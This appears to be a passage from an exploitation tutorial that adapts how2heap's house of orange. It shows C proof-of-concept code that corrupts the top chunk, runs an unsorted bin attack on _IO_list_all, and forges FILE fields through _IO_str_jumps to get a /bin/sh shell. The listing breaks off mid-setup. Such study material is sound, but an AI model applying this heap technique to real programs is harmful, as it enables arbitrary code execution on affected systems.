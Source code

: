 ```
_mode = -1



vtable = _IO_str_jumps - 0x18

```



#### Example


Modified how2heap&#39;s houseoforange code, you can debug it yourself.


```c

#include <stdio.h>

#include <stdlib.h>

#include <string.h>

int winner ( char *ptr);

int main()

{

    char *p1, *p2;

    size_t io_list_all, *top;

    // unsorted bin attack

    p1 = malloc(0x400-16);

    top = (size_t *) ( (char *) p1 + 0x400 - 16);

    top[1] = 0xc01;

    p2 = malloc(0x1000);

    io_list_all = top[2] + 0x9a8;

    top[3] = io_list_all - 0x10;

    // _IO_str_overflow conditions

    char binsh_in_libc[] = "/bin/sh\x00"; // we can found "/bin/sh" in libc, here i create it in stack

    // top[0] = ~1;

    // top[0] &= ~8;

    top[0] = 0;

    top[4] = 0; // write_base

    top[5] = ((size_t)&binsh_in_libc-100)/2 + 1; // write_ptr

    top[7] = 0; // buf_base

    top[8] = top[5] - 1; // buf_end
```